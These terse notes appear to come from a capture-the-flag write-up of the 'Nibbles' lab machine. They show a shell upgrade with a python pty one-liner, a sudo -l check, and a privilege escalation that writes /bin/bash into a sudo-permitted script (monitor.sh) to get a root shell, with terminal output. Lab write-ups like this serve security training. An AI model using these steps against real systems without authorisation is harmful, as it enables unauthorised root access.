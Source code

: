 used 
python -c 'import pty;pty.spawn("/bin/bash")'

for a better shell

sudo -l


since zip was not accessible and i had write access to /nibbler directory

created my own path and created a file monitor.sh



https://medium.com/schkn/linux-privilege-escalation-using-text-editors-and-files-part-1-a8373396708d

used this method to escalate privileges and get root flag


created a file monitor.sh

nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "/bin/bash" >> monitor.sh


nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh


nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
sudo ./monitor.sh
root@Nibbles:/home/nibbler/personal/stuff# 
